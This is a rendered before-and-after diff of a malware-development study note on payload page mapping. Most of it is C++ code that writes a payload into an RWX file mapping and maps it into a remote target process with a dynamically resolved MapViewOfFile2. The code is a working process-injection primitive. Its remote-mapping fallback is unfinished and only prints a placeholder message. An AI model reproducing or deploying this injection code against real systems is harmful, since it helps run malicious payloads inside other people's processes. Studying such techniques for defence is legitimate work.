

Before and after one commit to everrover/supernova-hold, a Markdown page: MaldevFlashnotes/PayloadPageMapping.md, 2 parts joined by grey strips. Shown at 99% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
corrected payload page mapping method

````diff
--- a/MaldevFlashnotes/PayloadPageMapping.md
+++ b/MaldevFlashnotes/PayloadPageMapping.md
@@ -9,6 +9,10 @@ Remote injection uses function like `MapViewOfFile2` to map memory from private(
 Similary, other APIs like `CreateFileMappingFromApp` and `MapViewOfFileFromApp` can also be used; and shared memory sections can be created using `SECTION_MAP_READ`, `SECTION_MAP_WRITE`, and `SECTION_MAP_EXECUTE` permissions which can then be mapped into target process.
 
 ```cpp
+// required headers
+#include <windows.h>
+#include <iostream>
+
 BOOL LocalMapInject(IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID &pAddress) {
 
 	BOOL   bSTATE         = TRUE;
@@ -41,33 +45,52 @@ _EndOfFunction:
 	return bSTATE;
 }
 
-BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID &pAddress) {
+static BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID& pAddress) {
 
-	BOOL        bSTATE            = TRUE;
-	HANDLE      hFile             = NULL;
-	PVOID       pMapLocalAddress  = NULL,
-                pMapRemoteAddress = NULL;
+	BOOL        bSTATE = TRUE;
+	HANDLE      hFile = NULL;
+	PVOID       pMapLocalAddress = NULL,
+		pMapRemoteAddress = NULL;
 
-    // Create a file mapping handle with RWX memory permissions
+	// Create a file mapping handle with RWX memory permissions
 	// This does not allocate RWX view of file unless it is specified in the subsequent MapViewOfFile call
-	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
+	hFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, (DWORD)sPayloadSize, NULL);
 	if (hFile == NULL) {
 		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
-		bSTATE = FALSE; goto _EndOfFunction;
+		bSTATE = FALSE;
+		goto _EndOfFunction;
 	}
 
-    // Maps the view of the payload to the memory
+	// Maps the view of the payload to the memory
 	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
 	if (pMapLocalAddress == NULL) {
 		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
-		bSTATE = FALSE; goto _EndOfFunction;
+		bSTATE = FALSE;
+		goto _EndOfFunction;
 	}
 
-    // Copying the payload to the mapped memory
+	// Copying the payload to the mapped memory
 	memcpy(pMapLocalAddress, pPayload, sPayloadSize);
 
 	// Maps the payload to a new remote buffer in the target process
-	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
+	typedef PVOID(WINAPI* PFN_MapViewOfFile2)(
+		HANDLE, HANDLE, ULONG64, SIZE_T, ULONG, ULONG);
+
+	PFN_MapViewOfFile2 pMapViewOfFile2 =
+		(PFN_MapViewOfFile2)GetProcAddress(
+			GetModuleHandleW(L"Kernel32.dll"),
+			"MapViewOfFile2");
+
+	if (pMapViewOfFile2) {
+		pMapRemoteAddress = pMapViewOfFile2(hFile, hProcess,
+			0, sPayloadSize,
+			0, PAGE_EXECUTE_READWRITE);
+	}
+	else {
+		cout << "Shaky tools! To be implemented!" << endl;
+	}
+
+	//pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
 	if (pMapRemoteAddress == NULL) {
 		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
 		bSTATE = FALSE; goto _EndOfFunction;
````
Also changed, not shown: MaldevFlashnotes/EarlyBirdAPCInjection.md (added).
